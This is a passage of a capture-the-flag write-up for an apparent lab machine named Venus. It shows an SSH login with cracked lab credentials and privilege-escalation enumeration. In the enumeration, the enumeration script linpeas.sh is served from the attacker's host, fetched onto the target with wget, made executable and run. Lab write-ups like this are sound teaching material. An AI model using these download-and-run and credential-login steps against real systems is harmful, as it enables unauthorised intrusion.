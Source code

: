 
## SSH

#### *Now that we have the pair of username and password, it is time to find out which one has SSH access*

- magellan:venusiangeology1989 is able to login with SSH
- ssh magellan@192.168.56.117

![Venus](user_flag.png)

# Privilege Escalation

- User permission Enumeration
- start with `sudo -l` to check if you are able to do sudo commands with the magellan user

### Linpeas 🫛

- Download linpeas.sh release from [GitHub](https://github.com/peass-ng/PEASS-ng/releases)
- After that, create a server with `python3 -m http.server`
- You can check your own IP with `ifconfig eth1`
- Download the file from the remote computer
- `wget "http://192.168.56.52:8000/linpeas.sh"`
- The downloaded file does not have the necessary permissions
  use the command `chmod +x linpeas.sh`
- Run the file with `./linpeas.sh`

[[Response from linpeas - Venus]]

![Venus](wget_linpeas.png)
